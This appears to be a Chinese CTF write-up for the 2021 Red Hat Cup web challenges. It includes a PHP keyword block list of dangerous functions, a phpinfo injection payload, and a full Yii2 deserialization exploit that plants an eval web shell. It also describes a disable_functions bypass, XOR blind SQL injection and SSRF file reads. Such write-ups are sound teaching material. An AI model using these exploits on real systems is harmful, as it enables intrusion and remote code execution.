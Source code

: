 ```yaml
---
title: 红帽杯2021
comments: true
hide: false
date: 2021-05-09 20:43:09
urlname: redhat2021
updated:
password:
tags:
categories: Write-Up
---
```




Web体验还行，不是太难，压轴题很合理

<!-- more -->

## WEB

### find_it

题目没啥意思23333，还老是503

扫下目录，访问`robots.txt` ，得到`1ndexx.php`，访问页面500报错，应该是缺参数，既然这样那肯定要给源码(不然寄刀片伺候)

发现备份文件`.1ndexx.php.swp`

```php
<?php

#Really easy...

$file=fopen("flag.php","r") or die("Unable 2 open!");

$I_know_you_wanna_but_i_will_not_give_you_hhh = fread($file,filesize("flag.php"));


$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)>33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?>
```

ban了一堆函数，先看看phpinfo

payload：

```php
./?code=<?php phpinfo();
```

访问`hack.php`

搜索字符串，结果发现flag写在了环境变量里，被phpinfo暴露出来了

![web1flag](redhat2021/image-20210509205559176.png)

说实话，`1ndexx.php`和`index.php` 切换迷惑人，然后平台的问题，盲猜docker分发写环境变量，最后没删23333



---

### framework

扫到`www.zip`，看下是[Yii Framework2.0.32](http://github.com/yiisoft/yii2/)

去官网下原版比对一下，发现就改了个参数

#### [Yii2反序列化漏洞](https://www.cnblogs.com/thresh/p/13743081.html)

拿poc直接打，由于base64后可能会有`/`或者`+`等，所以先base64一下写函数解码即可

system似乎被ban了不行

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'assert';
            $this->id = "file_put_contents('1.php',base64_decode('PD9waHAgZXZhbCgkX1BPU1RbYV0pPz4='))";
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

// poc2
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?>
```

这里原poc打的参数是data，这里修改为message

![message](redhat2021/image-20210509210754051.png)

打过去就行，虽然报错但是已经执行了

![poc](redhat2021/36771C01-40D6-4C62-A2C3-A38B1D6CE696.png)

在当前目录会生成`1.php`，蚁剑连一下

![getshell](redhat2021/image-20210509211521847.png)

发现有disable_function，当时心凉一截，不会和蓝帽一样...

侥幸心理测了下蚁剑的突破插件，发现`Apache_mod_cgi`可以，执行根目录下`/readflag`即可

![web2flag](redhat2021/image-20210509211350611.png)



---

### WebsiteManger

打开登陆界面，估计是注入

看看连接，发现异常请求，还好没上来对着`username`乱试

![imagephp](redhat2021/image-20210509212002489.png)

经测试，可以使用异或 盲注

```
错误语句返回报错
正确语句错误表达返回：WHAT ARE YOU DOING
正确语句id为1返回图片
正确语句id为0返回空
```

![1^1](redhat2021/image-20210509212509022.png)

![1^0](redhat2021/image-20210509212527090.png)

![error](redhat2021/image-20210509212645414.png)

异或盲注脚本跑，可见以前写的WP

拿到信息如下

```
# version==========>5.5.60-0+deb8u1
# databases==========>ctf
# tables==========>images,users
# users.columns==========>username,password
# users.data==========>admin~a1d4f79c94f0cd3feeac4
```

似乎密码还是容器随机的，拿到用户名密码登陆

![ssrf](redhat2021/image-20210509213045341.png)

明显ssrf，用file协议读一下文件可行，直接读flag

payload：

```
file:///flag
```

![web3flag](redhat2021/image-20210509213219524.png)


